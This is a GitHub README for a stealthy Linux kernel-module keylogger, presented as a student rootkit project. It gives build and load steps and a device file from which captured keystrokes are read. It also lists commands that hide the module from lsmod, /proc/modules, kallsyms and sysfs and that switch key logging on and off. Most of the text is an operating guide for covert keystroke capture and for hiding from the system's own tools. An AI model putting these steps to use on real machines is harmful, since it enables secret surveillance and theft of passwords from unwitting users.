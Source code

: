 stealthy-Keylogger-lkm
========================

This is a very simple Keylogger implementation, and is part of a college project
at http://blogs.computing.dcu.ie/wordpress/mak0/

This is the 2nd implementation of my keylogger, this one allows the module to 
be hidden and also demonstrates how our rootkit could take simple commands.

This demonstrates an introduction to simple methods of concealing our rootkit.

To run simply run "make" in the folder with the Makefile.

There is also the option of running scripts/lets_mak_it.sh
This takes 2 arguments, the name of the device to appear in /dev/DEVICE_NAME
and a major number for the device. By default it used a device name of
maK_it and a major number of 33.

To view the logged keys cat /dev/maK_it

install with 
insmod maK_it.ko

Remove with 
rmmod maK_it

Building towards development of a rootkit...

===============
Demo Commands
===============
Hide the module: echo modHide > /dev/.maK_it

Reveal the module: echo modReveal > /dev/.maK_it

We can confirm the module is hidden by running some of the following:

lsmod | grep maK

grep maK /proc/modules

grep maK_it /proc/kallsyms

ls /sys/module | grep maK

modinfo maK_it

modprobe -c | grep maK


Turn Key logger on: echo keyLogOn > /dev/.maK_it

Turn Key logger off: echo keyLogOff > /dev/.maK_it

Turn debug on/off: echo debug > /dev/.maK_it
